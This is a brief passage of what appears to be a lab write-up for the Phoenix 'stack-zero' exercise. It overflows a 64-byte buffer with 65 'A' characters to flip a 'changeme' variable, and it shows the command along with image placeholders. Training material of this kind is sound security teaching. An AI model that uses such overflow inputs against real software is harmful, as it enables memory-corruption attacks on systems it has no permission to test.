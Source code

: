 ![calculate](/assets/phoenix/caclu.jpg)

---

## The Exploit

Let’s test a buffer with 65 characters to overwrite the 64-byte buffer and flip `changeme`.

```bash
./stack-zero
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Result:

![success](/assets/phoenix/success.png)
